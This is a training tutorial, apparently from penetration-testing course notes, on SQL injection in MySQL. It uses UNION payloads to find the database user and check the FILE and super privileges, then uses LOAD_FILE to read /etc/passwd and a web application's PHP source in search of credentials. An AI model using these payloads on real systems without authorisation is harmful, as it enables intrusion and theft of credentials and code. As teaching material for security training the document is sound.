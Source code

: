 # Reading Files

In addition to gathering data from various tables and databases within the DBMS, a SQL Injection can also be leveraged to perform many other operations, such as reading and writing files on the server and even gaining remote code execution on the back-end server.

***

## Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in `MySQL`, the DB user must have the `FILE` privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

### **DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not, then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Which tells us our current user, which in this case is `root`:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### **User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

```sql
SELECT super_priv FROM mysql.user
```

Once again, we can use the following payload with the above query:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The query returns `Y`, which means `YES`, indicating superuser privileges. We can also dump other privileges we have directly from the schema, with the following query:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

And we see all of the possible privileges given to our current user:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that the `FILE` privilege is listed for our user, enabling us to read files and potentially even write files. Thus, we can proceed with attempting to read files.

***

## LOAD\_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD\_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

{% hint style="info" %}
**Note:** We will only be able to read the file if the OS user running MySQL has enough privileges to read it.
{% endhint %}

Similar to how we have been using a `UNION` injection, we can use the above query:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to successfully read the contents of the passwd file through the SQL injection. Unfortunately, this can be potentially used to leak the application source code as well.

***

## Another Example

We know that the current page is `search.php`. The default Apache webroot is `/var/www/html`. Let us try reading the source code of the file at `/var/www/html/search.php`.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

However, the page ends up rendering the HTML code within the browser. The HTML source can be viewed by hitting `[Ctrl + U]`.

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The source code shows us the entire PHP code, which could be inspected further to find sensitive information like database connection credentials or find more vulnerabilities.

